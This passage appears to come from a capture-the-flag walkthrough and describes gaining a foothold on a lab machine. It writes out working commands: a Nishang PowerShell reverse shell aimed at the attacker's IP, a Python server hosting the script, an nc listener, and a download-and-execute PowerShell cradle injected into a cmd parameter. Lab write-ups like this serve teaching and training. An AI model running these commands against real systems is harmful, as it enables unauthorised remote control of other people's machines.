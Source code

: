 ![](../images/max/1420/1*mASnddj7fKG9owkP7k_sXw.png)

Perfect, we finally have code execution!

## Initial Foothold <a id="08ad"></a>

Let’s use that to send a reverse shell to our attack machine.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the request, add the following to the _cmd_ parameter. Don’t forget to URL encode it \(CTRL + U\).

```text
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```
